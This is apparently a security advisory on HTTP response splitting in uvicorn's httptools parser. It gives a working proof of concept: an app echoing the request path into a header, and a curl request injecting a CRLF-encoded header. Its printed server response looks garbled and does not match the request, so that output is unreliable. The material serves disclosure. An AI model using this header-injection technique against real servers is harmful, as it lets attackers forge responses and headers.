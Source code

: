 # Overview

uvicorn is a lightning-fast ASGI server.

This package is vulnerable to HTTP Response Splitting. Uvicorn's implementation of the HTTP protocol for the httptools parser is vulnerable to HTTP response splitting. CRLF sequences are not escaped in the value of HTTP headers. Attackers can exploit this to add arbitrary headers to HTTP responses, or even return an arbitrary response body, whenever crafted input is used to construct HTTP headers.

# Proof of Concept

```
async def app(scope, receive, send):
assert scope['type'] == 'http'
await send({
'type': 'http.response.start',
'status': 200,
'headers': [
[b'Content-Type', b'text/plain'],
[b'Referer', scope['path'].encode()],
]
})
 await send({
'type': 'http.response.body',
'body': b'Hello, world!',
})
```

```
uvicorn poc-3:app --port 9999 --http httptools
```

To exploit this vulnerability, make a GET request with a crafted URL path like so:

```
curl -v 'http://localhost:9999/foo%0d%0ahuntr:%20dev'
```

Uvicorn will return an additional HTTP header "huntr" with the value "dev":

```
- Trying 127.0.0.1...
- Connected to localhost (127.0.0.1) port 9999 (#0)
  > GET /foo%0d%0ahuntr:%20dev HTTP/1.1
  > Host: localhost:9999
  > User-Agent: curl/7.58.0
  > Accept: _/_

< HTTP/1.1 200 OK
< server: uvicorn
< content-type: text/plain
< referer: /huntr
< dev: dev
< transfer-encoding: chunked
<
```
